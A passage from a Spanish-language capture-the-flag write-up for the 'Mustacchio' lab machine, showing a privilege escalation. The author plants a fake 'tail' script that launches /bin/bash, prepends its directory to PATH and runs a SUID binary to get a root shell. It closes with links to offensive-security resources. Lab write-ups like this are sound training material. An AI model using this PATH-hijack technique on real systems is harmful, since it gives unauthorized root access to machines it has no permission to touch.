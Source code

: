 ```bash
/tmp/tmp.ktizzoGj0O
barry@mustacchio:/home/joe$ cd /tmp/tmp.ktizzoGj0O
```
- Metemos el ``/bin/bash`` al archivo tail, para luego decirle que primero debe de buscar el archiuvo tail en nuestra ruta actual y le damos permiso de ejecución
```bash
barry@mustacchio:/tmp/tmp.ktizzoGj0O$ echo "/bin/bash" -i > tail 
barry@mustacchio:/tmp/tmp.ktizzoGj0O$ pwd
/tmp/tmp.ktizzoGj0O
barry@mustacchio:/tmp/tmp.ktizzoGj0O$ export PATH=/tmp/tmp.ktizzoGj0O:$PATH
barry@mustacchio:/tmp/tmp.ktizzoGj0O$ chmod +x tail
```
- Ahora simplemente lo ejecutamos
```bash
barry@mustacchio:/tmp/tmp.ktizzoGj0O$ cd
barry@mustacchio:~$ pwd
/home/barry
barry@mustacchio:~$ cd /home/joe
barry@mustacchio:/home/joe$ ./live_log
```
- EEEEEE ya somos root y tenemes nuestra flags
```bash
root@mustacchio:/home/joe# whoami
root
root@mustacchio:/home/joe# ls
live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# ls
root.txt
```

- Si deseas aprender mas sobre este hermoso campo que es el hacking te recomiendo los materiales siguientes:
    - Canal de youtube de [S4vitar](https://www.youtube.com/c/s4vitar)
    - Payloads de todo tipo [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
    - Diccionarios para el descubrimiento de rutas [url paths](https://www.hackplayers.com/2018/01/diccionarios-para-el-descubrimiento-de-rutas.html) en aplicaciones webs
    - Ataques a [redes inalambricas](https://epasan.gitbooks.io/notas-de-seguridad-informatica-ofensiva/content/chapter9.html)
    - Si tienes algun permiso sobre un binario como root usa [GTFOBins](https://gtfobins.github.io/)
- Espero que esta informacion te ayude en tu camino 